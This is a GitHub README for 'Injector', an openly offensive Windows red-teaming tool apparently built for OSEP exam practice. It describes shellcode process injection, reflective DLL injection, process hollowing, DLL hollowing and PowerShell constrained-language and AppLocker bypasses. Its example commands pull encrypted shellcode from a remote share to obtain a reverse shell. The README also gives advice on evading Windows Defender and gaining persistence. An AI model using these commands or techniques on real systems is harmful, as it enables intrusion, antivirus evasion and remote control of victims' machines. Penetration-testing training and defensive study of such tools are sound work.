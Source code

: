 # Injector
Complete Arsenal of Memory injection and other techniques for red-teaming in Windows

# WIP
-  Working to add DInvoke for EDR bypass as well
- Code base moving to c++ (C++ is being worked upon, not production ready. Please do not use it right now)

# What does Injector do?

- Process injection support for shellcode located at remote server as well as local storage. Just specify the shellcode file and it will do the rest. It will by default inject into notepad.exe and if not found, it will create a notepad process and inject into it for persistence.
- Reflective DLL Injection for DLL injection. It downloads the DLL and injects into remote process.
- Process hollowing via svchosts.exe
- With -bypass flag it tends to use more advanced un-documented API for process injeciton and the routine itself gets changes.
- Now even supports encrypted shellcode i.e AES encrypted and Xor encryted shellcode are now supported. To encrypt the shellcode use Helper.exe in order to maintain consistency.  
- Supports CLM bypass for powershell. Just drop it to a whitelisted folder where you can execute C# binary, for instance at C:\\Windows\\Tasks
- Now comes with support for DLL Hollowing. DLL hollowing is implemented via the dll_hollow.dll! So in case you end up using this mode, make sure the dll and the exe are in same place.

```
C:\Users\admin>Injector.exe
Help Options for Xenon:
-m       Mode of operation
        -m 1     Specifies the mode as Process injection
        -m 2     Specifies the mode as Reflective DLL Injection
        -m 3     Specifies the mode as Process Hollowing
        -m 4     No injection! Give me my damn shell
        -m 5     Powershell session via CLM bypass
        -m 6     DLL hollowing

-TempFile        File location that your current user can read
-shellcode       Use shellcode
-dll     Use dll
-decrypt-xor     Specify Xor decryption for shellcode
         -pass   Specifty the password for Xor decryption
-decrypt-aes     Specify aes decryption for shellcode
         -pass   Specifty the password for aes decryption
-location        Specify the location i.e either server or local
-bypass         Uses enhance attempts to bypass AV
```
To generate encrypted shellcode, use Helper.exe on kali along with proper switch.

### Example of usage

```
Injector.exe -m=1 -shellcode -encrypt-aes -pass=password -location="\\192.x.x.x\share\shellcode.txt" -bypass
```
This is will decrypt your shellcode and give you reverse shell. Presence of bypass flag instructs injector to use some other ways to get reverse shell i.e using some undocumented Win API.

In case you dont wanna use encrypted shellcode, you can also run it simply like below

```
Injector.exe -m=1 -shellcode -location="\\192.x.x.x\share\shellcode.txt"
```
Just change the -m=1 to 2,3,4,6 to run other modes. 

```
Injector.exe -m=5 -TempFile=C:\\Users\\user\\sample.txt
```
This will give you a session where you can execute IEX cradle and get a proper reverse shell hence bypassing CLM.

## Help me with Antivirus?

A specific function called basic_rev in Program.cs of Injector triggers windows defender. It is advised to edit the function and remove the WaitForSingleObject line which will end up making that whole module useless but helps to bypass defender on Windows. Why to use a basic reverse shell mode when advance modes will give you persistence and help evade defender better :)

# Why make it?

Main aim is to help me in OSEP :P

# Powershell 

You can use Invoke-Exe.ps1 to execute Injector from powershell in case there is applocker restriction on .NET execution.
```
Invoke-Exe -loc C:\Users\john\injector.exe
```
Note : Use the Debug build of Injector to load it Reflectivly in powershell.

# Talk to me?

Shoot me a DM on twitter @gh0st_R1d3r_0x9 to talk abt more interesting indeas/modules that can make this more amazing!

Current module in pipeline
- Phantom DLL Injection

# Acknowledgements

[Ired Team](https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection)
